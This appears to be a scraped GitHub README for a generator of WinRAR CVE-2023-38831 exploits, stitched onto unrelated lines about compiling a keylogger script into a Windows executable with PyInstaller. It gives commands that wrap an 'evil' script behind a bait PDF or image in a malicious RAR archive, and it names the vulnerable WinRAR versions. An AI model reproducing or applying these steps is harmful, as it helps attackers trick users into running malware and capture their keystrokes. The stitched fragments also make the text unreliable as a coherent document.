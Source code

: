 Convert  Keylog.py to Keylog.exe
pip3 install pyinstaller
pyinstaller --onefile keylog.py
# CVE-2023-38831 winrar exploit generator

## Quick poc test

Generate the default poc for test

```
python cve-2023-38831-exp-gen.py poc
or
python cve-2023-38831-exp-gen.py CLASSIFIED_DOCUMENTS.pdf script.bat  poc.rar
```

## Custom

1. Place the bait file and (evil) script file in the current directory, the bait file is recommended to be an image (.png, jpg) or a document (.pdf)
2. Run `python cve-2023-38831-exp-gen.py <bait name> <script name> <output name>` to generate your exploit


## Screenshots

Infected version: winrar <= 6.22

![demo](./demo.png)



## Reference

https://www.group-ib.com/blog/cve-2023-38831-winrar-zero-day/
